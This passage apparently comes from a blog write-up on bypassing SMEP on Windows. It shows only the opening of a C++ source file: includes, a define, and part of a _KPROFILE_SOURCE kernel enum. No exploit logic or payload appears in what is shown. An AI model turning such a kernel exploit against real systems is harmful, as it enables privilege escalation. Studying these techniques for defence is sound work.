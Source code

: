 ![](imgs/blog/2SmepBypass/20250420183943.png)

```cpp

#include <stdio.h>
#include <windows.h>

#define MAXIMUM_FILENAME_LENGTH 255 

//0x4 bytes (sizeof)
enum _KPROFILE_SOURCE
{
	ProfileTime = 0,
	ProfileAlignmentFixup = 1,
	ProfileTotalIssues = 2,
	ProfilePipelineDry = 3,
	ProfileLoadInstructions = 4,
	ProfilePipelineFrozen = 5,
	ProfileBranchInstructions = 6,
	ProfileTotalNonissues = 7,
	ProfileDcacheMisses = 8,
	ProfileIcacheMisses = 9,
	ProfileCacheMisses = 10,
	ProfileBranchMispredictions = 11,
	ProfileStoreInstructions = 12,
	ProfileFpInstructions = 13,
	ProfileIntegerInstructions = 14,
	Profile2Issue = 15,
	Profile3Issue = 16,
	Profile4Issue = 17,
```